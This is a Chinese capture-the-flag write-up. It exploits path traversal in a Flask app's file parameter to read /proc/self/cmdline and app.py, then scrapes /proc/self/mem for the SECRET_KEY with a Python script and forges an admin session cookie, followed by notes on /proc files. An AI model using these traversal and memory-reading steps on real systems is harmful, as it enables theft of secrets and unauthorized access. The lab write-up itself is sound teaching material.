







打开界面后，任意点击一个猫猫文案


发现有一个info?file=有一个参数读取


尝试各种网页敏感文件/etc/passwd,/proc/self中一些常见文件，访问/proc/self/cmdline得以发现：进程中用到了一个python app.py的命令


于是要访问app.py，猜测app.py在app目录下，访问得到
```
b'import os\nimport uuid\nfrom flask import Flask, request, session, render_template, Markup\nfrom cat import cat\n\nflag = ""\napp = Flask(\n __name__,\n static_url_path=\'/\', \n static_folder=\'static\' \n)\napp.config[\'SECRET_KEY\'] = str(uuid.uuid4()).replace("-", "") + "*abcdefgh"\nif os.path.isfile("/flag"):\n flag = cat("/flag")\n os.remove("/flag")\n\n@app.route(\'/\', methods=[\'GET\'])\ndef index():\n detailtxt = os.listdir(\'./details/\')\n cats_list = []\n for i in detailtxt:\n cats_list.append(i[:i.index(\'.\')])\n \n return render_template("index.html", cats_list=cats_list, cat=cat)\n\n\n\n@app.route(\'/info\', methods=["GET", \'POST\'])\ndef info():\n filename = "./details/" + request.args.get(\'file\', "")\n start = request.args.get(\'start\', "0")\n end = request.args.get(\'end\', "0")\n name = request.args.get(\'file\', "")[:request.args.get(\'file\', "").index(\'.\')]\n \n return render_template("detail.html", catname=name, info=cat(filename, start, end))\n \n\n\n@app.route(\'/admin\', methods=["GET"])\ndef admin_can_list_root():\n if session.get(\'admin\') == 1:\n return flag\n else:\n session[\'admin\'] = 0\n return "NoNoNo"\n\n\n\nif __name__ == \'__main__\':\n app.run(host=\'0.0.0.0\', debug=False, port=5637)'
```

拿到pycharm中print一下，得到app.py源代码：
```
import os
import uuid
from flask import Flask, request, session, render_template, Markup
from cat import cat

flag = ""
app = Flask(
 __name__,
 static_url_path='/', 
 static_folder='static' 
)
app.config['SECRET_KEY'] = str(uuid.uuid4()).replace("-", "") + "*abcdefgh"#****
if os.path.isfile("/flag"):
 flag = cat("/flag")
 os.remove("/flag")

@app.route('/', methods=['GET'])
def index():
 detailtxt = os.listdir('./details/')
 cats_list = []
 for i in detailtxt:
 cats_list.append(i[:i.index('.')])
 
 return render_template("index.html", cats_list=cats_list, cat=cat)


@app.route('/info', methods=["GET", 'POST'])
def info():
 filename = "./details/" + request.args.get('file', "")
 start = request.args.get('start', "0")
 end = request.args.get('end', "0")
 name = request.args.get('file', "")[:request.args.get('file', "").index('.')]
 
 return render_template("detail.html", catname=name, info=cat(filename, start, end))
 


@app.route('/admin', methods=["GET"])
def admin_can_list_root():
 if session.get('admin') == 1:#访问/admin后，发现session为admin才能得到flag
 return flag
 else:
 session['admin'] = 0
 return "NoNoNo"


if __name__ == '__main__':
 app.run(host='0.0.0.0', debug=False, port=5637)
```

所以要伪造session,需要获得SECRET_KEY，在代码中星号标记的地方，用了uuid库生成随机数加字符串“\*abcdefgh”来生成SECRET_KEY，所以无法在此获得该密钥

于是想到通过/proc/self/maps读取该进程的内存信息，从而获得密钥，一下为其中一组数据
```
55d6676cc000-55d6676cd000 r--p 00000000 fd:00 23480232 /usr/local/bin/python3.7\n
```

访问后信息太多，写个python脚本过滤
```
import re  
import requests  
  
def secrty():  
    url="http://61.147.171.105:63284/info?file=../../proc/self/maps" #打开网页 
    response=requests.get(url)  #获取内容
    data=re.findall('[0-9a-f]+-[0-9a-f]+ r',response.text)#通过正则获得可读内容  
    for i in data:  
        start=int(i.split("-")[0],16)  #以"-"为分界线分为两组数据，分别为内存区域的起始位置再转换为十进制
        end=int(i.split("-")[1].strip(" r"),16)  
  
        url_1=f"http://61.147.171.105:63284/info?file=../../../../proc/self/mem&start={start}&end={end}"  #拿到地址后在访问mem文件，获得内存内容
  
        data_1=requests.get(url_1)  
        data_2=re.findall("[0-9a-z]{32}\*abcdefgh",data_1.text)##uuid中生成字母共有32位，再拼接原有字符串，即可找到SECRET_KEY
        print(data_2)  
secrty()
```

得到SECRET_KEY


然后可以采用flask session伪造工具：flask_session_cookie_manager3.py
用法：

解密:python flask_session_cookie_manager3.py decode -c -s # -c是flask cookie里的session值 -s参数是SECRET_KEY

加密:python flask_session_cookie_manager3.py encode -s -t # -s参数是SECRET_KEY -t参数是session的参照格式，也就是session解密后的格式

第一次启动可能会报错缺少相应的库，直接用pip安装就行


我们进入http://61.147.171.105:63284/admin页面，bp抓一下包，得到原有session,拿到工具下解一下密


得到格式再把0改为1加一下密


hackbar改造session即可得到flag


##### /etc/passwd:
Linux 系统中的 /etc/passwd 文件，是系统用户配置文件，存储了系统中所有用户的基本信息，并且所有用户都可以对此文件执行读操作

##### /proc:
Linux 内核提供了一种通过 /proc 文件系统，在运行时访问内核内部数据结构、改变内核设置的机制。proc文件系统是一个伪文件系统，它只存在内存当中，而不占用外存空间。它以文件系统的方式为访问系统内核数据的操作提供接口

### 常见目录文件：

#### cmdline
cmdline 文件存储着启动当前进程的完整命令，但僵尸进程目录中的此文件不包含任何信息，可以通过查看cmdline目录获取启动指定进程的完整命令

#### cwd
cwd 文件是一个指向当前进程运行目录的符号链接。可以通过查看cwd文件获取目标指定进程环境的运行目录

#### exe
exe 是一个指向启动当前进程的可执行文件（完整路径）的符号链接。通过exe文件我们可以获得指定进程的可执行文件的完整路径

#### environ
environ文件存储着当前进程的环境变量列表，彼此间用空字符（NULL）隔开，变量用大写字母表示，其值用小写字母表示。可以通过查看environ目录来获取指定进程的环境变量信息

#### fd
fd是一个目录，里面包含着当前进程打开的每一个文件的描述符（file descriptor）差不多就是路径啦，这些文件描述符是指向实际文件的一个符号连接，即每个通过这个进程打开的文件都会显示在这里。所以我们可以通过fd目录的文件获取进程，从而打开每个文件的路径以及文件内容

#### maps
proc/self/maps读取当前文件运行时的内存信息

#### men
/proc/self/mem允许进程读取和写入自己的内存。这个文件的大小等于进程的虚拟内存大小。通过读取/proc/self/mem，进程可以读取自己的内存，通过写入/proc/self/mem，进程可以修改自己的内存。
但是注意该文件不能直接读取，因为文件中存在着一些无法读取的未被映射区域，需结合/proc/self/maps中的偏移地址进行读取，通过参数start和end及偏移地址值读取内容（需要用十进制）。

### self
上面的这些操作列出的都是目标环境指定进程的信息，但是我们在做题的时候往往需要的当前进程的信息，这时候就用到了/proc 目录中的self子目录了

**注意：在真正做题的时候，我们是不能通过命令的方式执行通过cat命令读取cmdline的。因为如果cat读取/proc/self/cmdline/的话，得到的是cat进程的信息。所以我们要通过题目的当前进程使用读取文件（比如，文件包含漏洞，，SSTI，，file:\\本地读取，，…/…/…/目录穿越，，SSRF）的方式读取/proc/self/cmdline**

### flask session
flask的session是通过加密之后放到cookie中，有加密就有密钥用于解密，所以只要用到了flask的session模块就一定要配置"SECRET_KEY"这个全局宏

### maps内容解析
/proc/self/maps是一个特殊的文件，它包含了当前进程的内存映射情况。这个文件中的每一行都描述了进程中的一段内存区域，包括其起始地址、结束地址、访问权限、映射方式、文件路径等信息。

每一行的格式如下：

```
address           perms offset  dev   inode   pathname
```

其中，各字段的含义如下：

-   address：内存区域的起始和结束地址，用16进制表示。
-   perms：内存区域的访问权限，包括r（可读）、w（可写）、x（可执行）和p（私有）等。
-   offset：内存区域相对于文件开头的偏移量，如果不是通过文件映射而来，则为0。
-   dev：内存区域所在的设备号。
-   inode：内存区域所在的文件的inode号，如果不是通过文件映射而来，则为0。
-   pathname：内存区域所在的文件路径，如果不是通过文件映射而来，则为“[anon]”。

例如，下面是一个示例：
```
00400000-0040b000 r-xp 00000000 08:01 131088           /bin/cat
0060a000-0060b000 r--p 0000a000 08:01 131088           /bin/cat
0060b000-0060c000 rw-p 0000b000 08:01 131088           /bin/cat
022f3000-02314000 rw-p 00000000 00:00 0                [heap]
7f8d5c000000-7f8d5c021000 rw-p 00000000 00:00 0 
7f8d5c021000-7f8d60000000 ---p 00000000 00:00 0 
7f8d61a4a000-7f8d61a4e000 rw-p 00000000 00:00 0 
7fff8c7f9000-7fff8c81a000 rw-p 00000000 00:00 0              [stack]
7fff8c8ff000-7fff8c901000 r-xp 00000000 00:00 0              [vdso]
ffffffffff600000-ffffffffff601000 r-xp 00000000 00:00 0      [vsyscall]
```

这个示例中包含了5个内存区域，其中：
-   第一个区域是可执行文件/bin/cat的代码段，起始地址为0x00400000，结束地址为0x0040b000，具有读和执行权限，是只读的共享内存区域。
-   第二个区域是可执行文件/bin/cat的只读数据段，起始地址为0x0060a000，结束地址为0x0060b000，具有读权限，是只读的共享内存区域。
-   第三个区域是可执行文件/bin/cat的可写数据段，起始地址为0x0060b000，结束地址为0x0060c000，具有读和写权限，是读写的共享内存区域。
-   第四个区域是堆区域，起始地址为0x022f3000，结束地址为0x02314000，具有读和写权限，是读写的私有内存区域。
-   第五个区域是栈区域，起始地址为0x7fff8c7f9000，结束地址为0x7fff8c81a000，具有读和写权限，是读写的私有内存区域。
-   最后三个区域是内核空间的特殊区域，不属于进程的地址空间。

通过解析/proc/self/maps文件，我们可以了解进程的内存映射情况，对于调试和性能优化等方面都有很大的帮助。
